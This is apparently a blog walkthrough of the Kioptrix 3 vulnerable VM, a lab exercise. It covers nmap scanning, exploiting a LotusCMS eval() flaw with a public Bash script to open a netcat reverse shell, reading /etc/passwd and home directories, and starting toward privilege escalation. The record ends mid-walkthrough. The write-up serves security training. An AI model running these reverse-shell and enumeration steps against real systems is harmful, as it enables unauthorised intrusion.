






Intro
\nToday I will be continuing on the the Kioptrix series of vulnerable VMs. In previous posts, I covered Kioptrix1 and Kioptrix1.1.
\nPer the author of the challenge, "The same as the others, there\xe2\x80\x99s more then one way to \xe2\x80\x9cpwn\xe2\x80\x9d this one. There\xe2\x80\x99s easy and not so easy." So let\'s see if we can find both, shall we?
\nSetup
\nThe challenge description and Readme file tells us that in addition to spinning up the VM and letting DHCP assign it an address, we also need to point kioptrix3.com to the VM\'s IP. The Readme also confirms this is another web challenge, which makes sense given the required name mapping. Let\'s spin up the VM, find it on the network, and then point the domain name via our Kali attack box\'s hosts file.
\nWe use an nmap Ping scan of our local subnet to identify the target.
\nroot@kali:~# nmap -T4 -sn 172.16.2.0/24\n\nStarting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-08-30 23:01 PDT\nNmap scan report for 172.16.2.1\nHost is up (0.00013s latency).\nMAC Address: 00:50:56:C0:00:02 (VMware)\nNmap scan report for 172.16.2.132\nHost is up (0.00015s latency).\nMAC Address: 00:0C:29:0A:F9:22 (VMware)\nNmap scan report for 172.16.2.254\nHost is up (0.00013s latency).\nMAC Address: 00:50:56:F5:96:F6 (VMware)\nNmap scan report for 172.16.2.129\nHost is up.\nNmap done: 256 IP addresses (4 hosts up) scanned in 12.86 seconds\nProcess of elimination of the know addresses means 172.16.2.132 is our target.
\nPer the Readme, let\'s point kioptrix3.com to 172.16.2.132:
\nroot@kali:~# echo "172.16.2.132 kioptrix3.com" >> /etc/hosts\nInitial Scanning and Enumeration
\nWith out target identified and name resolution set up, let\'s move on to initial scanning of the VM.
\nTCP scanning:
\nroot@kali:~# nmap -T4 -Pn -sV -O -p- kioptrix3.com\n\nStarting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-08-30 23:08 PDT\nNmap scan report for kioptrix3.com (172.16.2.132)\nHost is up (0.00045s latency).\nNot shown: 65533 closed ports\nPORT STATE SERVICE VERSION\n22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)\n80/tcp open http Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)\nMAC Address: 00:0C:29:0A:F9:22 (VMware)\nDevice type: general purpose\nRunning: Linux 2.6.X\nOS CPE: cpe:/o:linux:linux_kernel:2.6\nOS details: Linux 2.6.9 - 2.6.33\nNetwork Distance: 1 hop\nService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\n\nOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .\nNmap done: 1 IP address (1 host up) scanned in 9.10 seconds\nUDP scanning:
\nroot@kali:~# nmap -T4 -Pn -sU --top-ports 200 -sV -O 172.16.2.132\n\nStarting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-08-30 23:09 PDT\nNmap scan report for kioptrix3.com (172.16.2.132)\nHost is up (0.00044s latency).\nAll 200 scanned ports on kioptrix3.com (172.16.2.132) are closed (154) or open|filtered (46)\nMAC Address: 00:0C:29:0A:F9:22 (VMware)\nToo many fingerprints match this host to give specific OS details\nNetwork Distance: 1 hop\n\nOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .\nNmap done: 1 IP address (1 host up) scanned in 307.11 seconds\nNot much to work with, but at least we know where to focus our effort.
\nDeeper Apache enumeration with relevant nmap scripts:
\nroot@kali:~# nmap -T4 -Pn -p 80 --script=http-apache-negotiation.nse,http-apache-server-status.nse,http-backup-finder.nse,http-coldfusion-subzero.nse,http-comments-displayer.nse,http-config-backup.nse,http-csrf.nse,http-default-accounts.nse,http-devframework.nse,http-dombased-xss.nse,http-drupal-enum.nse,http-drupal-enum-users.nse,http-enum.nse,http-git.nse,http-headers.nse,http-iis-short-name-brute.nse,http-iis-webdav-vuln.nse,http-mcmp.nse,http-methods.nse,http-method-tamper.nse,http-mobileversion-checker.nse,http-open-proxy.nse,http-open-redirect.nse,http-passwd.nse,http-phpmyadmin-dir-traversal.nse,http-phpself-xss.nse,http-php-version.nse,http-proxy-brute.nse,http-robots.txt.nse,http-shellshock.nse,http-sitemap-generator.nse,http-sql-injection.nse,http-stored-xss.nse,http-title.nse,http-unsafe-output-escaping.nse,http-userdir-enum.nse,http-vhosts.nse,http-vuln-cve2006-3392.nse,http-vuln-cve2009-3960.nse,http-vuln-cve2010-0738.nse,http-vuln-cve2010-2861.nse,http-vuln-cve2011-3192.nse,http-vuln-cve2011-3368.nse,http-vuln-cve2012-1823.nse,http-vuln-cve2013-0156.nse,http-vuln-cve2013-6786.nse,http-vuln-cve2013-7091.nse,http-vuln-cve2014-2126.nse,http-vuln-cve2014-2127.nse,http-vuln-cve2014-2128.nse,http-vuln-cve2014-2129.nse,http-vuln-cve2014-3704.nse,http-vuln-cve2014-8877.nse,http-vuln-cve2015-1427.nse,http-vuln-cve2015-1635.nse,http-waf-detect.nse,http-waf-fingerprint.nse,http-webdav-scan.nse,http-wordpress-enum.nse,http-wordpress-users.nse,http-xssed.nse,membase-http-info.nse,rmi-vuln-classloader.nse 172.16.2.132\n\nStarting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-08-30 23:20 PDT\nNmap scan report for kioptrix3.com (172.16.2.132)\nHost is up (0.00034s latency).\nPORT STATE SERVICE\n80/tcp open http\n| http-comments-displayer: \n| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=kioptrix3.com\n| \n| Path: http://kioptrix3.com/index.php?system=Admin\n| Line number: 12\n| Comment: \n| <!--\n| $(document).ready(function() {\n| // Handler for .ready() called.\n| $(\'body\').corner();\n| $(\'#footer\').corner();\n| $(\'#menu\').corner("right");\n| });\n| -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 72\n| Comment: \n| <!-- gallery_stats: outputs statistics for the photo gallery -->\n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380\n| Line number: 27\n| Comment: \n| <!-- BEGIN -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 54\n| Comment: \n| <!-- links_end -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 70\n| Comment: \n| <!-- popular_grid: output a 4x1 row containing the most viewed photos -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 23\n| Comment: \n| <!-- menu: output the generic gallery navigation menu -->\n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380\n| Line number: 58\n| Comment: \n| <!--\n| var formAction = {\n| remember : function() {\n| if (document.getElementById("remember").checked) {\n| var expire = new Date();\n| expire.setTime(expire.getTime() + 30*24*60*60*1000);\n| var inputs = document.getElementById("commentForm").getElementsByTagName("input");\n| var name;\n| var website;\n| for (var i=0; i<inputs.length; i++) {\n| if (inputs[i].name=="name") name = inputs[i].value;\n| else if (inputs[i].name=="website") website = inputs[i].value;\n| }\n| document.cookie = "newsguest=" + name + "," + website + "; expires=" + expire.toGMTString();\n| }\n| },\n| fill : function() {\n| var cookie = document.cookie;\n| var newsguest = "newsguest=";\n| var begin = cookie.indexOf(newsguest);\n| if (begin>-1) {\n| begin += newsguest.length;\n| var end = cookie.indexOf(";", begin);\n| if (end==-1) end = cookie.length;\n| var guests = cookie.substring(begin, end).split(",");\n| var inputs = document.getElementById("commentForm").getElementsByTagName("input");\n| for (var i=0; i<inputs.length; i++) {\n| if (inputs[i].name=="name") inputs[i].value = guests[0];\n| else if (inputs[i].name=="website") inputs[i].value = guests[1];\n| }\n| }\n| },\n| validate : function() {\n| var inputs = document.getElementById("commentForm").getElementsByTagName("input");\n| for (var i=0; i<inputs.length; i++) {\n| if (inputs[i].name=="name" && inputs[i].value==\'\') return false;\n| }\n| return (document.getElementById("commentForm").getElementsByTagName("textarea")[0].value!=\'\');\n| },\n| submit : function() {\n| if (this.validate()) {\n| this.remember();\n| return true;\n| } else {\n| alert(\'No blank name or message, please.\');\n| return false;\n| }\n| }\n| };\n| window.onload = formAction.fill;\n| //-->\n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380\n| Line number: 112\n| Comment: \n| <!-- Leaving in my name and website link will be greatly appreciated in return for offering you this template for free. Thanking you in advance. -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 48\n| Comment: \n| <!-- <a href="gadmin">Admin</a> -->\n| \n| Path: http://kioptrix3.com/gallery/g.php/1\n| Line number: 47\n| Comment: \n| <!-- gallery_photo_grid: output 4x1 rows containing photos in this gallery -->\n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380\n| Line number: 108\n| Comment: \n| \n| //--></script> </div>\n| \n| Path: http://kioptrix3.com/gallery/themes/black/style.css\n| Line number: 1\n| Comment: \n| /* \n| Theme Name: Gallarific Black\n| Theme URI: http://www.gallarific.com/\n| Description: The Gallarific black photo gallery theme\n| Version: 1.0\n| Author: Gallarific\n| Author URI: http://www.gallarific.com/\n| */\n| \n| Path: http://kioptrix3.com/gallery/g.php/1\n| Line number: 47\n| Comment: \n| <!-- gallery_photo_grid_end -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 101\n| Comment: \n| <!-- gallery_stats_end -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 55\n| Comment: \n| <!-- recent_grid: output a 4x1 row containing recently uploaded photos -->\n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380\n| Line number: 29\n| Comment: \n| <!-- END -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 38\n| Comment: \n| <!-- menu_end -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 55\n| Comment: \n| <!-- recent_grid_end -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 70\n| Comment: \n| <!-- popular_grid_end -->\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Line number: 39\n| Comment: \n|_ <!-- links: output quick links for gallery -->\n| http-csrf: \n| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=kioptrix3.com\n| Found the following possible CSRF vulnerabilities: \n| \n| Path: http://kioptrix3.com/gallery/\n| Form id: \n| Form action: login.php\n| \n| Path: http://kioptrix3.com/index.php?system=Admin\n| Form id: contactform\n| Form action: index.php?system=Admin&page=loginSubmit\n| \n| Path: http://kioptrix3.com/gallery/\n| Form id: \n| Form action: login.php\n| \n| Path: http://kioptrix3.com/gallery/gadmin/\n| Form id: username\n| Form action: index.php?task=signin\n| \n| Path: http://kioptrix3.com/gallery/index.php\n| Form id: \n| Form action: login.php\n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380#comments\n| Form id: commentform\n| Form action: \n| \n| Path: http://kioptrix3.com/index.php?system=Blog&post=1281005380\n| Form id: commentform\n|_ Form action: \n|_http-devframework: Couldn\'t determine the underlying framework or CMS. Try increasing \'httpspider.maxpagecount\' value to spider more pages.\n|_http-dombased-xss: Couldn\'t find any DOM based XSS.\n| http-enum: \n| /phpmyadmin/: phpMyAdmin\n| /cache/: Potentially interesting folder\n| /core/: Potentially interesting folder\n| /icons/: Potentially interesting folder w/ directory listing\n| /modules/: Potentially interesting directory w/ listing on \'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch\'\n|_ /style/: Potentially interesting folder\n| http-headers: \n| Date: Wed, 30 Aug 2017 23:20:14 GMT\n| Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch\n| X-Powered-By: PHP/5.2.4-2ubuntu5.6\n| Set-Cookie: PHPSESSID=c148ca51a0a449b611c4c46c62b9ddfe; path=/\n| Expires: Thu, 19 Nov 1981 08:52:00 GMT\n| Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0\n| Pragma: no-cache\n| Connection: close\n| Content-Type: text/html\n| \n|_ (Request type: HEAD)\n| http-methods: \n|_ Supported Methods: GET HEAD POST OPTIONS\n|_http-mobileversion-checker: No mobile version detected.\n| http-php-version: Versions from logo query (less accurate): 5.1.3 - 5.1.6, 5.2.0 - 5.2.17\n| Versions from credits query (more accurate): 5.2.3 - 5.2.5, 5.2.6RC3\n|_Version from header x-powered-by: PHP/5.2.4-2ubuntu5.6\n| http-sitemap-generator: \n| Directory structure:\n| /\n| Other: 1; php: 1\n| /gallery/gadmin/\n| Other: 1\n| /gallery/photos/\n| jpg: 3\n| /gallery/themes/black/\n| css: 1; js: 1\n| Longest directory structure:\n| Depth: 3\n| Dir: /gallery/themes/black/\n| Total files found (by extension):\n|_ Other: 2; css: 1; jpg: 3; js: 1; php: 1\n| http-sql-injection: \n| Possible sqli for queries:\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin\n| http://kioptrix3.com/gallery/themes/black/slideshow.php?pause=%27%20OR%20sqlspider\n| http://kioptrix3.com/gallery/themes/black/%20%22slideshow.php?pause=%22%27%20OR%20sqlspider\n| http://kioptrix3.com/gallery/themes/black/path+%22gallery.php?id=%22%2bgallery_id%2b%22%27%20OR%20sqlspider&sort=%22%2bfield%2b%22#photos";\n| http://kioptrix3.com/gallery/themes/black/path+%22gallery.php?id=%22%2bgallery_id%2b%22&sort=%22%2bfield%2b%22%27%20OR%20sqlspider#photos";\n| http://kioptrix3.com/gallery/themes/black/tags.php?tag=%27%20OR%20sqlspider\n| http://kioptrix3.com/gallery/themes/black/%20%22slideshow.php?id=%22%27%20OR%20sqlspider\n| http://kioptrix3.com/gallery/themes/black/%20%22tags.php?sort=%22%2bfield%2b%22%27%20OR%20sqlspider&tag=%22%2btag%2b%22#photos";\n| http://kioptrix3.com/gallery/themes/black/%20%22tags.php?sort=%22%2bfield%2b%22&tag=%22%2btag%2b%22%27%20OR%20sqlspider#photos";\n| http://kioptrix3.com/gallery/themes/black/slideshow.php?id=%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n| http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n|_ http://kioptrix3.com/index.php?page=index%27%20OR%20sqlspider\n|_http-stored-xss: Couldn\'t find any stored XSS vulnerabilities.\n|_http-title: Ligoat Security - Got Goat? Security ...\n| http-vhosts: \n|_127 names had status 200\n|_http-xssed: No previously reported XSS vuln.\nMAC Address: 00:0C:29:0A:F9:22 (VMware)\n\nNmap done: 1 IP address (1 host up) scanned in 3.70 seconds\nSo far, we have collected some software versions and some interesting spidered URLs to check out, including some URLs that may be vulnerable to SQL injection.
\n- \n
- Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch) \n
- PHP/5.2.4-2ubuntu5.6 \n
Web App Fingerprinting
\nLet\'s manually map the application a bit via our browser and Burp. We will simply proxy our browser through Burp with Intercept turned off. This will allow us to quickly click around the web app and then inspect the requests and responses.
\nOne of the first things we can see is the web application is running something called LotusCMS:
\n
I\'ve never heard of LotusCMS, but let\'s see what Exploit DB can tell us about it:
\n
RCE
\nRCE spotted (assuming the vulnerable version of the CMS)! The ExploitDB page for the Metasploit module references https://secuniaresearch.flexerasoftware.com/secunia_research/2011-21/, which is a decent summary of the issue. The jist is that arbitrary PHP code execution is possible due to two separate issues in the CMS\' code. Both issues are caused by incorrectly implemented input sanitization with the input being passed to the PHP eval() statement. This effectively provides system-level RCE by injecting PHP system() calls.
\nLet\'s see if we can find a stand-alone exploit script, instead of using Metasploit.
\n
The repo contains both Bash and Ruby stand-alone exploitation scripts. Thanks Hood3dRob1n! Let\'s go for the Bash script... After a quick review, we verify that the script is safe to run and understand its functionality. When run, the script will check that we have a vulnerable target, ask us to select from a menu of payloads, and then run the exploit. Interestingly, it appears Hood3dRob1n wrote this script with Kioptrix #3 (1.2) in mind.
\nExploiting the RCE
\nWe start our listener:
\nroot@kali:~# nc -vvlp 1337\nlistening on [any] 1337 ...\nThen run the sploit:
\nroot@kali:~# ./lotusRCE.sh\nUSAGE: ./lotusRCE.sh target LotusCMS_path\nEX: ./lotusRCE.sh 192.168.1.36 /lcms/\nEX: ./lotusRCE.sh ki0ptrix3.com /\nroot@kali:~# ./lotusRCE.sh kioptrix3.com /\nPath found, now to check for vuln....\n\n</html>Hood3dRob1n\nRegex found, site is vulnerable to PHP Code Injection!\n\nAbout to try and inject reverse shell....\nwhat IP to use?\n172.16.2.129\nWhat PORT?\n1337\n\nOK, open your local listener and choose the method for back connect: \n1) NetCat -e 3) NetCat Backpipe 5) Exit\n2) NetCat /dev/tcp 4) NetCat FIFO\n#? 1\nFlipping back to our listener:
\nroot@kali:~# nc -vvlp 1337\nlistening on [any] 1337 ...\nconnect to [172.16.2.129] from kioptrix3.com [172.16.2.132] 35306\n\nhostname\nKioptrix3\n\nwhoami\nwww-data\n\nid\nuid=33(www-data) gid=33(www-data) groups=33(www-data)\nVery nice, we now have a www-data user shell. I\'ll admit, I don\'t know much about the Suhosin patch we detected, but I believe it is intended to protect PHP web apps against exploitation. Maybe it was misconfigured on this app? At any rate, let\'s go after root.
\nLocal Privilege Escalation
\nLocal Enumeration
\nI could accomplish this step using my Linux enumeration script, but let\'s have a go by hand. If we can\'t find any low hanging fruit, we will fall back to the more thorough script.
\nWe first need to see what we are working with:
\nuname -a\nLinux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux\n\ncat /etc/*release*\nDISTRIB_ID=Ubuntu\nDISTRIB_RELEASE=8.04\nDISTRIB_CODENAME=hardy\nDISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"\nFrom here, let\'s see what users we have on the system:
\ncat /etc/passwd\nroot:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/bin/sh\nbin:x:2:2:bin:/bin:/bin/sh\nsys:x:3:3:sys:/dev:/bin/sh\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/bin/sh\nman:x:6:12:man:/var/cache/man:/bin/sh\nlp:x:7:7:lp:/var/spool/lpd:/bin/sh\nmail:x:8:8:mail:/var/mail:/bin/sh\nnews:x:9:9:news:/var/spool/news:/bin/sh\nuucp:x:10:10:uucp:/var/spool/uucp:/bin/sh\nproxy:x:13:13:proxy:/bin:/bin/sh\nwww-data:x:33:33:www-data:/var/www:/bin/sh\nbackup:x:34:34:backup:/var/backups:/bin/sh\nlist:x:38:38:Mailing List Manager:/var/list:/bin/sh\nirc:x:39:39:ircd:/var/run/ircd:/bin/sh\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh\nnobody:x:65534:65534:nobody:/nonexistent:/bin/sh\nlibuuid:x:100:101::/var/lib/libuuid:/bin/sh\ndhcp:x:101:102::/nonexistent:/bin/false\nsyslog:x:102:103::/home/syslog:/bin/false\nklog:x:103:104::/home/klog:/bin/false\nmysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false\nsshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin\nloneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash\ndreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash\n\nlastlog\nUsername Port From Latest\nroot tty1 Mon Apr 18 11:29:13 -0400 2011\ndaemon **Never logged in**\nbin **Never logged in**\nsys **Never logged in**\nsync **Never logged in**\ngames **Never logged in**\nman **Never logged in**\nlp **Never logged in**\nmail **Never logged in**\nnews **Never logged in**\nuucp **Never logged in**\nproxy **Never logged in**\nwww-data **Never logged in**\nbackup **Never logged in**\nlist **Never logged in**\nirc **Never logged in**\ngnats **Never logged in**\nlibuuid **Never logged in**\ndhcp **Never logged in**\nsyslog **Never logged in**\nklog **Never logged in**\nmysql **Never logged in**\nsshd **Never logged in**\nloneferret pts/1 192.168.1.106 Sat Apr 16 08:51:58 -0400 2011\ndreg **Never logged in**\nBesides root, it looks like loneferret is the only other user to have accessed the system. Let\'s see what he has been up to:
\nls -la /home/loneferret\ntotal 64\ndrwxr-xr-x 3 loneferret loneferret 4096 Apr 17 2011 .\ndrwxr-xr-x 5 root root 4096 Apr 16 2011 ..\n-rw-r--r-- 1 loneferret users 13 Apr 18 2011 .bash_history\n-rw-r--r-- 1 loneferret loneferret 220 Apr 11 2011 .bash_logout\n-rw-r--r-- 1 loneferret loneferret 2940 Apr 11 2011 .bashrc\n-rw------- 1 root root 15 Apr 15 2011 .nano_history\n-rw-r--r-- 1 loneferret loneferret 586 Apr 11 2011 .profile\ndrwx------ 2 loneferret loneferret 4096 Apr 14 2011 .ssh\n-rw-r--r-- 1 loneferret loneferret 0 Apr 11 2011 .sudo_as_admin_successful\n-rw-r--r-- 1 root root 224 Apr 16 2011 CompanyPolicy.README\n-rwxrwxr-x 1 root root 26275 Jan 12 2011 checksec.sh\n\ncat /home/loneferret/.bash_history\nsudo ht\nexit\n\ncat CompanyPolicy.README\nHello new employee,\nIt is company policy here to use our newly installed software for editing, creating and viewing files.\nPlease use the command \'sudo ht\'.\nFailure to do so will result in you immediate termination.\n\nDG\nCEO\n\n/home/loneferret/checksec.sh\nUsage: checksec [OPTION]\n\nOptions:\n\n --file <executable-file>\n --dir <directory> [-v]\n --proc <process name>\n --proc-all\n --proc-libs <process ID>\n --kernel\n --fortify-file <executable-file>\n --fortify-proc <process ID>\n --version\n --help\n\nFor more information, see:\n http://www.trapkit.de/tools/checksec.html\nWell, that is all very interesting. We have a couple of references to the ht application as well as a script, that per the [link](http://www.trapkit.de/tools/checksec.html from the help dialogue, "is designed to test what standard Linux OS and PaX security features are being used." On a hunch, what if we check the security on the the ht executable?
